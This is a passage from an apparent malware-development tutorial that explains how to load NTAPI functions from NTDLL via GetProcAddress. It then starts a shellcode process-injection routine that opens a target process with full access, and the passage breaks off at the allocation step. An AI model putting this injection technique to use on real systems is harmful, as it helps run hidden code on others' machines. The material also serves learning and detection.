 ### Loading NTAPI functions

To call the NTAPI functions, we would first need to get a Handle to the NTDLL file from where we would get the address of the necessary functions required. Then we would call those accordingly. Also we would have to initialize necessary parameters. We can use functions like [`GetModuleHandle`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlew) and [`GetProcAddress`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) for this. Note that these functions being present in a binary's IAT is an indicator of malware.

What we are doing here is getting the address of the function, so if `NtOpenProcess` is at `0x702E` then we save that address to a function pointer `pOpen` and then call this function (which points to the original `NtOpenProcess`) and pass necessary arguments.

```c
HMODULE hNTDLL = GetModuleHandleW(L"NTDLL.DLL");

NtOpenProcess pOpen = (NtOpenProcess)GetProcAddress(hNTDLL, "NtOpenProcess");
NtCreateThreadEx pCreateThreadEx = (NtCreateThreadEx)GetProcAddress(hNTDLL, "NtCreateThreadEx");
NtAllocateVirtualMemory pAllocate = (NtAllocateVirtualMemory)GetProcAddress(hNTDLL ,"NtAllocateVirtualMemory");
NtWriteVirtualMemory pWrite = (NtWriteVirtualMemory)GetProcAddress(hNTDLL, "NtWriteVirtualMemory");
NtClose pClose = (NtClose)GetProcAddress(hNTDLL, "NtClose");

// parameters for NtOpenProcess
OBJECT_ATTRIBUTES oAttrib = { sizeof(oAttrib), NULL };
CLIENT_ID cID = { (HANDLE)pID, NULL };
```

The NTAPI functions have similar parameters to what their high level counterparts along with additional parameters. [`OBJECT_ATTRIBUTES`](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/ns-ntdef-_object_attributes) & [`CLIENT_ID` ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/a11e7129-685b-4535-8d37-21d4596ac057)are 2 such parameters used in the `NtOpenProcess` function. [`OBJECT_ATTRIBUTES`](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/ns-ntdef-_object_attributes) is the structure which specifies the attributes to apply to the object (as the name suggests), and the [`CLIENT_ID`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/a11e7129-685b-4535-8d37-21d4596ac057) helps identifying the thread whose process is to be opened. \
Basically, at least one of the two structure objects (Process Handle / Thread Handle) should be specified (not NULL). In our case, we have specified the Process Handle, you can definitely try creating another thread and then supplying that to check out the behavior, Learning is all about tinkering with stuff (make sure you have debug statements). That being said we can know move on to the exciting part

## NTAPI Process Injection

Well this part is quite similar to the "OG" Process Injection and if you are aware of it then you might see the similarities between the two. We just need to perform the same steps / call same functions as we did previously in [Process Injection](https://reze.gitbook.io/bin/maldev/process-injection).&#x20;

```c
NTSTATUS STATUS = NULL;
SIZE_T szShellcode = sizeof(shellcode);

// NtOpenProcess
STATUS = pOpen(&hProcess, PROCESS_ALL_ACCESS, &oAttrib, &cID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed, STATUS @---0x%lx", STATUS);
    return EXIT_FAILURE;
}
else {
    okay("Got Handle to the Process %ld @---0x%p",pID, hProcess);
}
// NtAllocateVirtualMemory
```